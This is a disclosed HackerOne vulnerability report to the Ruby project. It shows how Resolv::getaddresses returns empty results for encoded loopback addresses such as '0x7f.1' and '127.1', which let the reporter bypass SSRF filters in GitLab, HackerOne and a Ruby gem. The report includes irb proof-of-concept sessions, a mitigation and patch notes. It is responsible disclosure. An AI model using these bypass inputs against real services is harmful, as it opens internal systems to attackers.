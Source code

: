 # Resolv::getaddresses bug that can be abused to bypass security measures. 

## Report Details
- **Report ID**: 287835
- **URL**: https://hackerone.com/reports/287835
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-11-06T19:44:58.500Z
- **Disclosed**: 2018-02-23T07:19:19.776Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
# Description

`Resolv::getaddresses` is OS-dependent, therefore by playing around with different IP formats one can return blank values. This bug can be abused to bypass exclusion lists often used to protect against SSRF.

| 💻 Machine 1 | 	💻 Machine 2 | 
|--------------|---------------| 
| ruby 2.3.3p222 (2016-11-21) [x86_64-linux-gnu] | ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu] |

💻 Machine 1

```
irb(main):002:0> Resolv.getaddresses("127.0.0.1")
=> ["127.0.0.1"]
irb(main):003:0> Resolv.getaddresses("localhost")
=> ["127.0.0.1"]
irb(main):004:0> Resolv.getaddresses("127.000.000.1")
=> ["127.0.0.1"]
```
💻 Machine 2

```
irb(main):008:0> Resolv.getaddresses("127.0.0.1")
=> ["127.0.0.1"]
irb(main):009:0> Resolv.getaddresses("localhost")
=> ["127.0.0.1"]
irb(main):010:0> Resolv.getaddresses("127.000.000.1")
=> []
```

# Proof of concept

```
irb(main):001:0> require 'resolv'
=> true
irb(main):002:0> uri = "0x7f.1"
=> "0x7f.1"
irb(main):003:0> server_ips = Resolv.getaddresses(uri)
=> [] # The bug!
irb(main):004:0> blocked_ips = ["127.0.0.1", "::1", "0.0.0.0"]
=> ["127.0.0.1", "::1", "0.0.0.0"]
irb(main):005:0> (blocked_ips & server_ips).any?
=> false # Bypass
```

# Mitigation

Currently I have been suggesting that the affected vendors stay away from `Resolv::getaddresses` altogether and use the `Socket` class.

```
irb(main):002:0> Resolv.getaddresses("127.1")
=> []
irb(main):003:0> Socket.getaddrinfo("127.1", nil).sample[3]
=> "127.0.0.1"
```

# Affected vendors and gems

By abusing this bug I was able to bypass GitLab, HackerOne and [private_address_check](https://github.com/jtdowney/private_address_check/)'s [SSRF](https://www.owasp.org/index.php/Server_Side_Request_Forgery) filters.

The `private_address_check` gem, for instance, relied on `Resolv::getaddresses` in `lib/private_address_check.rb`:

```ruby
def resolves_to_private_address?(hostname)
    ips = Resolv.getaddresses(hostname)
    ips.any? do |ip| 
      private_address?(ip)
    end
end
```

```
irb(main):001:0> require 'private_address_check'
=> true
irb(main):002:0> PrivateAddressCheck.resolves_to_private_address?("127.1")
=> false # Bypass
```

The author of this gem has provided a [patch](https://github.com/jtdowney/private_address_check/commit/58a0d7fe31de339c0117160567a5b33ad82b46af) for this issue and I can confirm that I am unable to bypass the fix.

GitLab and HackerOne have also been notified and plan on releasing a fix this week.



## Attachments
No attachments
